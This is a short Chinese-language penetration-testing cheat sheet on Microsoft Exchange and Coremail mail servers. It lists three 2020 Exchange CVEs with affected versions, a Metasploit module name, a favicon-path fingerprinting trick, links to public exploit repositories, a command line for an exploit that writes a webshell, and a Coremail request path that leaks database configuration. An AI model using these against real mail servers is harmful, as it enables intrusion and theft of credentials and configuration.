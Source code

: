 ```yaml
---
title: Exchange
---
```


## 应用简介

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。

简单而言，Exchange server可以被用来构架应用于企业、学校的邮件系统。

Exchange是收费邮箱，但是国内微软并不直接出售Exchange邮箱，而是将Exchange、Lync、Sharepoint三款产品包装成Office365出售

## [CVE-2020-16875]-远程命令执行

**漏洞概述**
```http
#影响范围
exchange_server_2016: cu16/cu17
exchange_server_2019: cu5/cu6
```

**漏洞利用**

```bash
use windows/http/exchange_ecp_dlp_policy
```

## [CVE-2020-0688]-远程代码执行

**漏洞概述**

由于Exchange服务器在安装时没有正确地创建唯一的加密密钥所造成的

```http
#影响版本 （需要登陆）
2010、2013、2016、2019
```

**对于如何识别版本可以用如下的方式**：

在登录界面查看网页源代码，15.1.225就是版本，之后在[Mircosoft网站](https://docs.microsoft.com/zh-cn/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019)上根据版本号就可以直接查询

```html
找到<link rel="shortcut icon" href="/owa/auth/15.1.225/themes/resources/favicon.ico" type="image/x-icon">
```

**POC**

https://github.com/random-robbie/cve-2020-0688

## [CVE-2020-17144]-Exchange远程命令执行

https://github.com/Airboi/CVE-2020-17144-EXP

```bash
条件: Exchange2010; 普通用户
默认用法(写webshell): CVE-2020-17144-EXP.exe mail.example.com user pass


执行命令 & 端口复用: 修改ExploitClass.cs
```

## Coremail 配置信息泄露

**POC**

```http
mailsms/s?func=ADMIN:appState&dumpConfig=/
```

可以获取数据库配置信息和推送账号